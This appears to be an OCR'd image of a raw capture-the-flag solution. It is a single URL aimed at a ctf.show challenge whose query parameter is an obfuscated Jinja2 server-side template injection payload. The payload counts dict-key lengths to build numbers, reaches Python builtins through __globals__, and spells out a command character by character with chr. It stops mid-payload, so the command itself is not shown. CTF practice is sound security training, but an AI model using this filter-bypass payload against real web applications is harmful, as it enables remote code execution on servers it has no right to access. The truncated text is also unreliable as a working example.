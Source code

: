 ```
http://2904f8f4-2f84-46b4-9f47-a720651f1578.challenge.ctf.show/?name={%%20set%20e=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20ee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20coun=dict(eeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}%20{%%20set%20po=dict(po=a,p=a)|join%}%20{%%20set%20a=(()|select|string|list)|attr(po)(coun)%}%20{%%20set%20ini=(a,a,dict(init=a)|join,a,a)|join()%}%20{%%20set%20glo=(a,a,dict(globals=a)|join,a,a)|join()%}%20{%%20set%20geti=(a,a,dict(getitem=a)|join,a,a)|join()%}%20{%%20set%20built=(a,a,dict(builtins=a)|join,a,a)|join()%}%20{%%20set%20x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}%20{%%20set%20chr=x.chr%}%20{%%20set%20cmd=chr(eeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeee)%2bchr(eee)%2bchr(ee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(ee)%2bchr(eeee)%2bchr(eeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeee)%2bchr(eeeeeeeeeeeeeeeeeeeeeeeeeeeee)%2bchr(eee)%2bchr(ee)%2bchr(eeeeeeeeeeeeeeeeeee
```
